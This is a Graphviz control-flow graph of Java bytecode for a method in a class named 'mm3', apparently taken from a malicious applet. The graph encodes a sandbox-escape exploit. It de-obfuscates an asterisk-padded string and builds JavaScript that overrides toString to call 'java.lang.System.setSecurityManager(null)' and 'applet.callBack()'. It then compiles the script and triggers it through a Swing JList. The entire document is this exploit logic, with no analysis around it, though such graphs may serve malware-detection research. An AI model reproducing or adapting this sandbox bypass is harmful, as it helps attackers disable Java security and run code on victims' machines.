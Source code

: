 digraph "" {
    "r0 := @this: mm3"
    "load.r r0"
    "r0 := @this: mm3"->"load.r r0";
    "new javax.script.ScriptEngineManager"
    "load.r r0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"javascript\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"javascript\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"javascript\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "checkcast"
    "dup1.r"->"checkcast";
    "store.r r1"
    "checkcast"->"store.r r1";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "store.r r1"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r2"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "push \"t***his.to***Str****ing = fun****cti****on***()** {\""
    "load.r r2"->"push \"t***his.to***Str****ing = fun****cti****on***()** {\"";
    "push \"*\""
    "push \"t***his.to***Str****ing = fun****cti****on***()** {\""->"push \"*\"";
    "push \"\""
    "push \"*\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r4"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r4";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r4"->"staticget <java.lang.System: java.io.PrintStream out>";
    "new java.lang.StringBuilder"
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"s2:\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"s2:\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"s2:\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r4"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\tjava.lang.System.setSecurityManager(null);\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\tjava.lang.System.setSecurityManager(null);\"";
    "push \"\tjava.lang.System.setSecurityManager(null);\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\tapplet.callBack();\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\tapplet.callBack();\"";
    "push \"\tapplet.callBack();\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));\"";
    "push \"\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"};\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"};\"";
    "push \"};\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e = new Error();\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e = new Error();\"";
    "push \"e = new Error();\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e.message = this;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e.message = this;\"";
    "push \"e.message = this;\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e\"";
    "push \"e\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "interfaceinvoke <javax.script.Compilable: javax.script.CompiledScript compile(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"interfaceinvoke <javax.script.Compilable: javax.script.CompiledScript compile(java.lang.String)> 1";
    "interfaceinvoke <javax.script.Compilable: javax.script.CompiledScript compile(java.lang.String)> 1"->"store.r r1";
    "push \"applet\""
    "store.r r1"->"push \"applet\"";
    "push \"applet\""->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "new javax.swing.JList"
    "pop"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push 0"->"load.r r1";
    "load.r r1"->"load.r r2";
    "virtualinvoke <javax.script.CompiledScript: java.lang.Object eval(javax.script.Bindings)>"
    "load.r r2"->"virtualinvoke <javax.script.CompiledScript: java.lang.Object eval(javax.script.Bindings)>";
    "arraywrite.r"
    "virtualinvoke <javax.script.CompiledScript: java.lang.Object eval(javax.script.Bindings)>"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <mm3: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <mm3: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <mm3: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <mm3: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
